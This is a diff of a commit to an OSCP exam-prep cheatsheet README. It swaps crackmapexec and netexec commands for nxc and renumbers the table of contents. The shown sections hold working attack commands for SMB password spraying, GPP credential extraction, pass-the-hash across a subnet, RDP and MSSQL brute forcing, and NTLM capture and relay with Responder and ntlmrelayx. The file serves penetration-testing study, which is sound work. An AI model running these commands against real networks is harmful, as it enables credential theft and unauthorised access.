

Before and after one commit to anshu19981/Oscp, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 85% size. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -18,11 +18,11 @@
 8. [Password Attacks](#8-password-attacks)
 9. [File Transfer Cheatsheet](#9-file-transfer-cheatsheet)
 10. [Shells & Upgrades](#10-shells--upgrades)
-11. [Exploit Development (BOF Reference)](#11-exploit-development-bof-reference)
-12. [Common CVEs & Exploits](#12-common-cves--exploits)
-13. [Exam Day Tips](#13-exam-day-tips)
-14. [Proof Collection Checklist](#14-proof-collection-checklist)
-15. [Quick Reference Card](#15-quick-reference-card)
+
+11. [Common CVEs & Exploits](#11-common-cves--exploits)
+12. [Exam Day Tips](#12-exam-day-tips)
+13. [Proof Collection Checklist](#13-proof-collection-checklist)
+14. [Quick Reference Card](#14-quick-reference-card)
 
 ---
 
@@ -881,10 +881,10 @@ hashcat -m 13100 kerb.txt rockyou.txt -r /usr/share/hashcat/rules/best64.rule
 
 ```bash
 # Check lockout policy FIRST:
-crackmapexec smb 192.168.x.100 -u stephanie -p 'Password123' --pass-pol
+nxc smb 192.168.x.100 -u stephanie -p 'Password123' --pass-pol
 
 # Spray slowly (1 attempt per user, avoid lockout):
-crackmapexec smb 192.168.x.100 -u domain_users.txt -p 'Password123' \
+nxc smb 192.168.x.100 -u domain_users.txt -p 'Password123' \
     --continue-on-success 2>/dev/null | grep "+"
 kerbrute passwordspray -d corp.local --dc 192.168.x.100 \
     domain_users.txt 'Password123'
@@ -899,9 +899,9 @@ kerbrute passwordspray -d corp.local --dc 192.168.x.100 \
 #### GPP / SYSVOL
 
 ```bash
-# CME module (fastest):
-crackmapexec smb 192.168.x.100 -u stephanie -p 'Password123' -M gpp_password
-crackmapexec smb 192.168.x.100 -u stephanie -p 'Password123' -M gpp_autologin
+# nxc module (fastest):
+nxc smb 192.168.x.100 -u stephanie -p 'Password123' -M gpp_password
+nxc smb 192.168.x.100 -u stephanie -p 'Password123' -M gpp_autologin
 
 # Manual check:
 smbclient //192.168.x.100/SYSVOL -U 'corp.local/stephanie%Password123'
@@ -916,11 +916,11 @@ gpp-decrypt <CPASSWORD_VALUE>
 
 ```bash
 # Verify hash works:
-crackmapexec smb <TARGET_IP> -u Administrator -H <NTLM_HASH> --local-auth
-netexec smb <TARGET_IP> -u user -H <NTLM_HASH>
+nxc smb <TARGET_IP> -u Administrator -H <NTLM_HASH> --local-auth
+nxc smb <TARGET_IP> -u user -H <NTLM_HASH>
 
 # Spray hash across subnet:
-crackmapexec smb 10.10.10.0/24 -u Administrator -H <NTLM_HASH> \
+nxc smb 10.10.10.0/24 -u Administrator -H <NTLM_HASH> \
     --local-auth --continue-on-success | grep "+"
 
 # Get interactive shell:
@@ -1531,22 +1531,22 @@ hydra -l sa -P rockyou.txt mssql://<TARGET_IP>
 # RDP:
 crowbar -b rdp -s <TARGET_IP>/32 -u administrator -C rockyou.txt
 
-# netexec/CME for SMB/WinRM:
-netexec smb <TARGET_IP> -u users.txt -p passwords.txt --no-bruteforce
-netexec winrm <TARGET_IP> -u users.txt -p passwords.txt
+# nxc for SMB/WinRM:
+nxc smb <TARGET_IP> -u users.txt -p passwords.txt --no-bruteforce
+nxc winrm <TARGET_IP> -u users.txt -p passwords.txt
 ```
 
 ### NTLM Capture & Relay
 
 ```bash
 # Capture via Responder (wait for connections):
-sudo responder -I tun0 -dwv
+sudo responder -I tun0 -wv
 # Crack captured NetNTLMv2:
 hashcat -m 5600 Responder/logs/HTTP-NTLMv2-*.txt rockyou.txt
 
 # NTLM Relay (SMB signing disabled targets):
 # Step 1: Check signing:
-netexec smb <SUBNET>/24 --gen-relay-list unsigned.txt
+nxc smb <SUBNET>/24 -u '' -p '' --gen-relay-list unsigned.txt
 # Step 2: Run relay (disable Responder SMB/HTTP):
 sudo python3 ntlmrelayx.py -tf unsigned.txt -smb2support
 # Step 3: Trigger authentication (click link, run MSSQL UNC, etc.)
````
Also changed, not shown: other parts of README.md (+26 -89 lines).
